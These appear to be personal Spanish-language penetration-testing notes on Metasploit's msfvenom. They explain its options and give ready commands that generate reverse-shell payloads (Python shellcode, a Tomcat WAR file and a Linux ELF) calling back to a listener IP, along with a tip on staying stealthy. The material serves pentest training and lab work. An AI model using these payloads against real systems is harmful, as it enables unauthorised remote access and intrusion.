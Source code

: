 #msfvenom 

-----

Es una herramienta del framework Metasploit que se usa para generar **payloads personalizados**, como **reverse shells** y **bind shells**. Permite crear **shellcode** en distintos formatos (Python, C, exe, etc.) para inyectarlo en exploits o archivos ejecutables. Es muy útil en pruebas de penetración para simular ataques reales.


```
msfvenom -p Payload LHOST=IpDeNuestraMaquina LPORT=PuertoQueEstaEnEscucha EXITFUNC=thread -b BadCharts -v shellcode -f FormatoDeSalida -a Arquitectura --platform SistemaOperativo
Ejemplo: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f py -a x86 --platform windows
```

*Parametros:*
`-p` Ingresamos el payload que queremos inyectar | Ejemplo 
	Los payload mas comunes que vamos a usar son: 
		*Windows:* 
			`32Bits:`windows/shell_reverse_tcp 
			`64Bits:`windows/x64/shell_reverse_tcp
		*Linux:*
			`32Bits:`linux/x86/shell_reverse_tcp
			`64Bits:`linux/x64/shell_reverse_tcp
`LHOST=` Nuestra ip
`LPORT=` Puerto que esta en escucha para recibir la [[Reverse shell]]
`EXITFUNC=` Define como termina el proceso al ejecutar el payload, la forma mas segura y sigilosa es usar *thread*
	Ejemplo de por que usar thread: Si yo inyecto el shellcode desde el proceso de la calculadora, usando EXITFUNC=thread el proceso de la calculadora sigue activo cuando yo cierro mi revershell, pero si no tuvierea el EXITFUNC=thread, cuando cierro mi revershell tambien se cierra la calculadora y esto seria poco sigiloso
`-b` Son los badcharts que tenemos que evitar para que se rompa el shellcode
`-v` Es para darle un nombre a la variable que tiene el shell code
	Ejemplos:
		Si ponemos de nombre buf, el shellcode se va a expotar asi: *buf += b"\xfc\xe8\x89..."*
		Pero si colocamos legacy va a exportarse de la siguiente manera: *legacy += b"\xfc\xe8\x89..."*
`-f` Formato de salida. Por ejemplo puede ser py, exe, bin, etc
`-a`Especificamos si la maquina victima es de *x86*(32bits) o *x64*(64bits)
`--platform` Sistema operativo de la maquina victima. Puede ser *windows* o *linux*

-------
# Comando para ver todos los payloads

```shell
msfvenom -l payloads
```


-------
# [[Reverse shell]]

#### Payload para tomcat archivo.war
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

#### Payload para linux exploit.elf
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.15 LPORT=5002 -f elf -o exploit.elf  
```
